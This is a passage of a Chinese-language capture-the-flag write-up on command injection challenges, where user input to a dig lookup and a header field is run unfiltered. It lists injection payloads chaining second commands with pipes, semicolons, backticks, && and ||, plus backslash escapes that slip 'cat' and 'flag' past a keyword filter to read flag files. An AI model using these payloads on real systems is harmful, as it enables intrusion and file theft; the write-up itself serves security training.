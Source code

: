 找到位置後，直接 cat 出來就可以拿到 flag 了

## Cat Digger
這題是 command injection
可以發現他會將我們輸入的內容送去執行 dig ，並且將結果輸出到網頁上

但是因為沒有針對我們的輸入做任何 filter ，我們可以直接截斷 dig 的指令，而去執行我們指定的內容

例如 輸入 `| ls` ，就會如實執行
> bootstrap.css
> index.php

所以，跟上一題相同，我們可以先用 find 找到 flag 的位置，最後 cat 出來即可
不過這題會檔輸入 `flag` `cat` ，所以需要一點跳脫
```bash=
| find / -name "fla*"
```
```bash=
| c\at /fla*
```
```bash=
`head /fl\ag` ` 內可以直接執行指令
```
```bash=
; c\at /fla* 分號可以接更多指令
```
```bash=
&& head /fl* 前者進行完直接接後者
```
```bash=
& c\at /fl* 前者丟入背景執行 後者繼續執行
```

> 如果想看更多跳脫方式，可以參考 @MuMu 在 `Baby CMDi` 的題解

# Level 2

## vtim_cmdi

`http://140.110.112.32:31339/index.php`

也是command injection。`;`似乎會被擋掉，但可以用`||`

```
|| ls .

Here's your header :
index.nginx-debian.html
index.php
```

翻找一下就可以看到flag

```
|| cat /flag/Flag/flag
```

